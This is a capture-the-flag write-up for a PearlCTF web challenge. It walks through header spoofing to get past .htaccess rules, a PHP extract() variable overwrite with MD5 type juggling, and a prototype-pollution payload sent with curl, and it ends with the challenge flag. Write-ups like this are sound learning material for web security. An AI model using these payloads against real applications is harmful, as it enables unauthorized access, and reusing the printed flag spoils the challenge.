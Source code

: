 # steps to success
## Solution
we are given `.htaccess` file in the source, looking at it, we get to know that the request must contain referer as localhost and user-agent as B3gul4.

```
RewriteEngine On
RewriteCond %{HTTP_REFERER} !.*localhost [NC]
RewriteRule ^ https://www.youtube.com/watch?v=zqLEO5tIuYs [R=301,L]

RewriteEngine On
RewriteCond %{HTTP_USER_AGENT} !=B3gul4 [NC]
RewriteRule ^ https://www.youtube.com/watch?v=zqLEO5tIuYs [R=301,L]
```

```
curl -H "referer: localhost" -H "user-agent: B3gul4" https://steps-to-success.ctf.pearlctf.in
ROBOTS ARE COOL
```

heading to `robots.txt` we find

```
User-agent: *

Disallow: /gr34t_/page.php
```

we get the followinf code at `/gr34t_/page.php` endpoint

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/11.9.0/styles/default.min.css">
    <title>AWESOME_PHP</title>
</head>
<body>
    <div>
        <pre><code><span>&lt</span>?php
    $password = "REDACTED";
    extract($_GET); // get request to "input" arg
    if ($input == $password) {
        if ($input != "PearlCTF_15345384" && md5($input) == md5("PearlCTF_15345384")) {
            echo "SECRET";
        } else {
            echo "md5 didn't match";
        }
    } else {
        echo "Wrong password!";
    }
?></code></pre>
    </div>
    <div style="background-color: #baffc0;">
        Wrong password!
    </div>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/11.9.0/highlight.min.js"></script>
    <script>hljs.highlightAll();</script>
</body>
</html>
```

We can see that our input is validated against a password, later the md5 of our input is validated against the md5 of `PearlCTF_15345384`, we can bypass the password check since `extract` is used to create a variable with our input as value, we can overwrite the password variable if we also pass password in get parameters. The md5 bypass is `php typejuggling`.

```
curl -H "referer: localhost" -H "user-agent: B3gul4" https://steps-to-success.ctf.pearlctf.in/gr34t_/page.php\?password\=QNKCDZO\&input\=QNKCDZO
```

this will tell us to head to `/u_c4nt_gu355_th1s`, we find that GET method is not allowed at this endpoint, on making a POST request we get JSON decode error, after seeing the source, we find that there are two snippets that were obfuscated, we just need to run the `main.js` with node and print the snippets.

```
(o,e)=>{let f=Object.keys(e);for(key of f)void 0!=o[key]&&isObject(o[key])&&isObject(e[key])?func1(o[key],e[key]):o[key]=e[key]};
```
```
const userObj=JSON.parse(req.body.obj);let template={user:1,role:"staff",access:{server:"none",database:"partial"},organisation:"pearl.in"};Object.setPrototypeOf(template,{}),userObj.isAdmin?result="You cannot do that here!":(func1(template,userObj),template.isAdmin&&(result=FLAG));
```

we see that our request must be of form `obj=<json>` at the endpoint and this `obj` is recursively merged with a predefined template. Later the merged object is checked for `isAdmin` key.

If we send `{"isAdmin": true}` as our `obj`, we can see that there is a check that doesn't allow this, so we need to have field `isAdmin` without it being there.

We can clearly see that this is to be done by prototype pollution.

so we send `{"__proto__": {"isAdmin": true}}`, the final payload is

```
curl -X POST https://steps-to-success.ctf.pearlctf.in/u_c4nt_gu355_th1s -d 'obj={"__proto__": {"isAdmin": true}}'
```

## Flag
`pearl{7hr0ugh_7H3_SeA_Thr0ugh_the_Space_V0yag3_com35_to_EnD!}`